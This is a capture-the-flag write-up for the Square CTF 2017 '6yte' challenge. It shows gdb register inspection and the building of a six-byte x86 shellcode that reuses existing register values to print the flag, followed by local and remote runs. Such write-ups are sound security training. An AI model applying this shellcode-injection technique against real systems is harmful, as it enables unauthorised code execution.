 > # 6yte (1000 points, Exploit)
> You only get 6 of them
> 
>
> Our operatives found this site, which appears to control some of the androids’ infrastructure! There are only two problems. The robots love x86 assembly; the only thing easier for them to work with is binary. And they love terse command codes. Even 7 bytes was too many for this one.
> 
> This URL is unique to your team! Don't share it with competitors!
> https://*redacted*.capturethesquare.com

Solution is pretty similar to bytes, but eventually a lot simpler.

1. To get started, download the file
2. Run it: 
```
daMage@kalima:~/ctfs/squarectf2017/6yte$ ./6yte f000
Shellcode location: 0xf7762000
Flag location: 0xff956780
WUNTEE_CHALLENGE_FLAG environmental variable not set. Could not read flag.
```
3. Prepare the environment:
```
daMage@kalima:~/ctfs/squarectf2017/6yte$ echo abcdefghijklmnopqrstu > flag.txt
daMage@kalima:~/ctfs/squarectf2017/6yte$ export WUNTEE_CHALLENGE_FLAG=flag.txt
```
4. Run the executable with gdb, and pass the cc's (interrupt / Int3) as the shellcode. Now is a good time to check the registers: 
```
daMage@kalima:~/ctfs/squarectf2017/6yte$ gdb -q ./6yte
Reading symbols from ./6yte...(no debugging symbols found)...done.
(gdb) r cccccc
Starting program: /home/daMage/ctfs/squarectf2017/6yte/6yte cccccc
Shellcode location: 0xf7fd1000
Flag location: 0xffffd200

Program received signal SIGTRAP, Trace/breakpoint trap.
0xf7fd1001 in ?? ()
(gdb) info registers 
eax            0x4	4
ecx            0xf7fadbcc	-134554676
edx            0x5	5
ebx            0x1	1
esp            0xffffd1f0	0xffffd1f0
ebp            0xffffd298	0xffffd298
esi            0x2	2
edi            0xffffd200	-11776
eip            0xf7fd1001	0xf7fd1001
eflags         0x286	[ PF SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 
```
5. Notice that the flag address is already in edi, eax is already 4 and ebx is 1, almost set up for writing to stdout.
6. Set up simple shellcode:
```
daMage@kalima:~/ctfs/squarectf2017/6yte$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > mov ecx,edi
00000000  89F9              mov ecx,edi
nasm > mov dl,0x24
00000000  B224              mov dl,0x24
nasm > int 0x80
00000000  CD80              int 0x80
```
This gives us shellcode 89f9b224cd80
7. Try it locally:
```
daMage@kalima:~/ctfs/squarectf2017/6yte$ ./6yte 89f9b224cd80
Shellcode location: 0xf77bd000
Flag location: 0xffc6bba0
abcdefghijklmnopqrstu
[garbled]Segmentation fault
```
8. Finally pass the hex-encoded string to the online form and get flag:
```
Output:

Shellcode location: 0xf76fc000
Flag location: 0xffd41810
flag-rofib-lugaf-sedir-veguc-rynat


Status:

pid 115 SIGSEGV (signal 11) (core dumped)
```
